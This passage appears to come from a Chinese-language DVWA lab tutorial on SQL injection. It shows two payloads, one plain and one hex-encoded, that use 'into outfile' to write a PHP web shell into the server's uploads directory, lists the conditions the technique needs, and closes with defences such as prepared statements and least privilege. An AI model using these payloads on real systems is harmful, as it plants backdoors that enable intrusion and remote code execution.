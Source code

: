 ```bash
union select 1,'<?php assert($_POST[a]);?>' into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'

union select 1,0x3c3f7068702061737365727428245f504f53545b615d293b3f3e into outfile 'C:/phpstudy_pro/WWW/DVWA/hackable/uploads/sh.php'
```

用into outfile写马需要的条件有：

(1)能够使用单引号

(2)知道绝对路径

(3)对目录需要有写权限且secure_file_priv不限制mysql写入文件的目录



## 4.2 sqlmap注入

## 4.3 SQL注入防御

SQL注入形成的原因是数据和代码没分离，用户可控的数据可以作为SQL语句执行。

因此防御sql注入最有效的方法是使用预编译语句，就像IMPOSSIBLE关这样。

预编译之后输入的参数不会再进行SQL编译，SQL语句的语义不会发生变化。

除此之外，也可以采用安全的存储过程，但存储过程本身可能存在注入；检查输入的数据类型也是有用的，但不是万能的；使用安全函数，注意数据库的最小权限原则也是有利的。
